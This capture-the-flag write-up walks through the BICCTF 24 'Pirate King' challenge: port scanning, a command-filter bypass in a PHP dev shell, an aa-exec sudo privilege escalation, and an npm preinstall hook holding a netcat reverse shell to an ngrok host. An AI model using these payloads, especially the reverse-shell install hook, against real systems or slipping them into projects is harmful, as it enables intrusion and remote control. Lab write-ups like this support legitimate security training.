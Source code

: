 * * *

### CTF: BICCTF 24

* * *

------------------------

### CHALLENGES

### B2R

-     Pirate King:Question [9] - [12]

-----------------------

### Pirate King

![image](https://github.com/user-attachments/assets/53744598-c639-4c2a-9fab-074e4051614a)

- The server was hosted on ip:`54.226.229.244`

      ❯ rustscan -a 54.226.229.244
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Nmap? More like slowmap.🐢
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 54.226.229.244:22
      Open 54.226.229.244:80
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-11 04:44 EDT
      Initiating Ping Scan at 04:44
      Scanning 54.226.229.244 [2 ports]
      Completed Ping Scan at 04:44, 0.30s elapsed (1 total hosts)
      Initiating Parallel DNS resolution of 1 host. at 04:44
      Completed Parallel DNS resolution of 1 host. at 04:44, 2.03s elapsed
      DNS resolution of 1 IPs took 2.03s. Mode: Async [#: 1, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 04:44
      Scanning ec2-54-226-229-244.compute-1.amazonaws.com (54.226.229.244) [2 ports]
      Discovered open port 80/tcp on 54.226.229.244
      Discovered open port 22/tcp on 54.226.229.244
      Completed Connect Scan at 04:44, 0.27s elapsed (2 total ports)
      Nmap scan report for ec2-54-226-229-244.compute-1.amazonaws.com (54.226.229.244)
      Host is up, received syn-ack (0.29s latency).
      Scanned at 2024-08-11 04:44:30 EDT for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack


- I scanned with Rustcan and discovered 2 open ports, port 80 `http` and port 22 `ssh` respectively.

- The site's source code contains this hint to check `robots.txt` file

![image](https://github.com/user-attachments/assets/e6ee4bf9-940e-4540-b413-41652c4611b3)

- The robots.txt file disallow crawling of files `syrup.jpeg` and `kaya.txt`
![image](https://github.com/user-attachments/assets/88594d64-5b2b-462b-a829-1e020033be19)

- Kaya.txt leads us to `dev_shell.php` page where we can execute shell commands.Although the shell code filters shell commands,checking the source code presents our first flag
![image](https://github.com/user-attachments/assets/8866ab4b-d112-48f2-bc4e-614e25a0320f)

- Flag-:``` BICCTF{Bl@ck_C@t_P1r@tes}```

### SSH ACCESS

- Running `l\s` to bypass the filter reveals a txt file.

![image](https://github.com/user-attachments/assets/3affc173-bb7a-48c5-9bff-38b0b99222a3)

- The txt file contains ssh credentials for the user `kuro`

![image](https://github.com/user-attachments/assets/602078b4-7702-4904-bdbf-5b30b8c50c9b)

- SSH Access
![image](https://github.com/user-attachments/assets/da974b06-bebb-4c72-97b5-073ca20e3692)

- `/home/kuro/Desktop/flag2.txt` contains the second flag
![image](https://github.com/user-attachments/assets/6c24be62-2334-4315-91da-8c8aba7c9c8b)

- Flag2-:```BICCTF{Nukia$hi}```

### User Usopp
- Running `sudo -l` as user `kuro` shows we can run binary `aa-exec` as user `usopp` without password.

![image](https://github.com/user-attachments/assets/99f8b741-280a-4ef9-b763-907ba73b6b59)

- I got this payload from gtfobins `aa-exec /bin/sh -p`, run with `aa-exec /bin/bash -p` to get a bash shell.Now, we have access to user `Usopp`
   Payload-:```sudo -u usopp aa-exec /bin/bash -p```

![image](https://github.com/user-attachments/assets/9ea1e3f3-d4ab-41e0-ac82-ff34291e62bd)

- The third flag is located in `/home/usopp/Desktop/flag3.txt`

![image](https://github.com/user-attachments/assets/d677d4c6-504d-438f-a84e-1ea259b792ab)

- Flag3-:```BICCTF{P@ch1nko}```
  
### Accessing User `node` with `npm install` cronjob

- This hint in the `Document` directory reveals a nodejob that run every 2mins

![image](https://github.com/user-attachments/assets/f862d4c6-0403-4d1e-b485-8ffbd4ebdcc2)

- We can abuse the package-lock.json file to spawn a reverse shell by creating a new one since the present one cannot be edited.You can also add it to the package.json file.

      {
        "name": ".nodeitems",
        "scripts": {
                 "preinstall": "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 5.tcp.eu.ngrok.io 11222 >/tmp/f"
             }
      }
      
- Shell Access to user `node`

![image](https://github.com/user-attachments/assets/80caf1f3-99fb-4f6a-b1c4-d41336e8595d)

- The last flag is located in `/home/node/flag4.txt`.

![image](https://github.com/user-attachments/assets/26184e5b-89bf-4e3d-8679-1a82b145961c)

- Flag4-:```BICCTF{n0deM@st3r}```

